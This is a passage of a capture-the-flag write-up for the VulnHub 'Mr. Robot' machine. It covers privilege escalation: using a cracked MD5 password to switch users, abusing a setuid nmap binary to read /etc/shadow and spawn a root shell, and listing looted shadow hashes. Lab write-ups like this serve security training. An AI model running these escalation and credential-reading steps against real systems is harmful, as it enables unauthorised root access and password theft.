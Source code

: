 \newpage
## Phase #3: Privilege Escalation
1\. While looking at the `/home/` directory we find that there is a directory for user `robot` and this user has access to the second key file `key-2-of-3.txt`. We have to switch user to access this key file and to do that we need user `robot`'s password. We also find a word-readable `password.raw-md5` file within this directory and use Google to find that it is the MD5 hash of the string `abcdefghijklmnopqrstuvwxyz`. We can now proceed and switch user:  
``` {.python .numberLines}
cat /home/robot/password.raw-md5
  robot:c3fcd3d76192e4007dfb496cca67e13b
su - robot
cat /home/robot/key-2-of-3.txt

```

![writeup.privesc.steps.1.1](Box%20Write-ups/vulnhub.mrrobot1/screenshot08.png)  

![writeup.privesc.steps.1.2](Box%20Write-ups/vulnhub.mrrobot1/screenshot08a.png)  

![writeup.privesc.steps.1.3](Box%20Write-ups/vulnhub.mrrobot1/screenshot08b.png)  

2\. We find that the `nmap` binary on this system has `setuid` privileges. We can use this to gain elevated access:  
``` {.python .numberLines}
find / -type f -perm -04000 2>/dev/null
ls -la /usr/local/bin/nmap
nmap --interactive
  !cat /etc/shadow
  !sh

```

![writeup.privesc.steps.2.1](Box%20Write-ups/vulnhub.mrrobot1/screenshot09.png)  

![writeup.privesc.steps.2.2](Box%20Write-ups/vulnhub.mrrobot1/screenshot09a.png)  

![writeup.privesc.steps.2.3](Box%20Write-ups/vulnhub.mrrobot1/screenshot09b.png)  

![writeup.privesc.steps.2.4](Box%20Write-ups/vulnhub.mrrobot1/screenshot09c.png)  

3\. We can now read the `/root/key-3-of-3.txt` file to complete the challenge:  
``` {.python .numberLines}
cat /root/key-3-of-3.txt

```

![writeup.privesc.steps.3.1](Box%20Write-ups/vulnhub.mrrobot1/screenshot10.png)  


\newpage

## Loot
### Hashes
``` {.python .numberLines}
root:$6$9xQC1KOf$5cmONytt0VF/wi3Np3jZGRSVzpGj6sXxVHkyJLjV4edlBxTVmW91pcGwAViViSWcAS/.OF0iuvylU5Izn........................
bitnamiftp:$6$saPiFTAH$7K09sg5oIfkIs5kuMx1R/Um4HNd8O6vF2n8oICEom8VVer0BYATY5wtzdPdP3JeuKbZ4RYBml0THNQv8.........................
robot:$6$HmQCDKcM$mcINMrQFa0Qm7XaUaS5xLEBSeP3bUkr18iwgwTAL8AIfUDYBWG5L8J9.Ukb3gVWUQoYam4G0m.I5qaHBn........................
```
### Credentials
``` {.python .numberLines}
```